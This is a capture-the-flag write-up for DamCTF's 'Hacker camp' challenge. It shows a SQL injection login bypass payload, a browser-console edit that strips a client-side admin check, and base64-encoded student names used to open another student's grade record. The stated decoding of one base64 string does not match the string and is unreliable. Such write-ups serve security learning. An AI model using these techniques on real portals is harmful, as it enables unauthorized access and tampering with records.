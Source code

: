# Hacker camp

**Description:** *Natasha Drew wants to go to Hacker Camp but doesn't have the grades she needs. Hack into the student portal and change her grades so she can attend.*

**See form:**
![Step 1](img/step1.png)

**SQLi:**
    
    login: admin' or 1=1 #
    pass: no matter

**See diary:**

![Step 2](img/step2.png)

**F12 search and will see:**

```html
    <script>
        var staff = {
            admin   :   false,
            name    :   'rhonda.daniels'
        }
    </script>

    and

    <script src="/assets/js/app.min.js"></script>
```

**Go to */assets/js/app.min.js* and get the code:**

```javascript
(function(s,objectName){
    setupLinks = function(){
        if( s.admin ){
            var sl = document.getElementsByClassName("student-link");
            for (i = 0; i < sl.length; i++) {
                let name = sl[i].innerHTML;
                sl[i].style.cursor='pointer';
                sl[i].addEventListener("click", function(){
                    window.location = '/update-' + objectName + '/' + this.dataset.id;
                });
            }
        }
    };
    updateForm = function(){ 
        var submitButton = document.getElementsByClassName("update-record"); 
        if( submitButton.length === 1 ){ 
            submitButton[0].addEventListener("click", function(){
                var english = document.getElementById("english");
                english = english.options[english.selectedIndex].value;
                var science = document.getElementById("science");
                science = science.options[science.selectedIndex].value;
                var maths = document.getElementById("maths");
                maths = maths.options[maths.selectedIndex].value;
                var grades = new Set(["A","B","C","D","E","F"]);
                if (grades.has(english) && grades.has(science) && grades.has(maths) ) {
                    document.getElementById('student-form').submit();
                }else{ 
                    alert('Grades should only be between A - F');
                }
            });
        }
    };
    setupLinks();
    updateForm();
})
(staff,'student');
```

**See this check:**

```javascript
if( s.admin ){
    ...
}
```

**Remove this check and insert modified code in F12 console:**

![Step 3](img/step3.png)

**Click on random student:**

![Step 4](img/step4.png)

**We can modify value! But we need Natasha..**

**See url:**

    https://hacker-camp.chals.damctf.xyz/update-student/TmFuY2llX0JyZXR0

**Decode base64:**

    TmFuY2llX0JyZXR0  : Manav_Dickson

**Making for Natasha:**

    Natasha_Drew : TmF0YXNoYV9EcmV3

**Go on new url:**

    https://hacker-camp.chals.damctf.xyz/update-student/TmF0YXNoYV9EcmV3

![Step 5](img/step5.png)

**Update values:**

![Step 6](img/step6.png)

**Flag:**

    dam{n0w_w3_c4n_h4ck_th3_pl4n3t}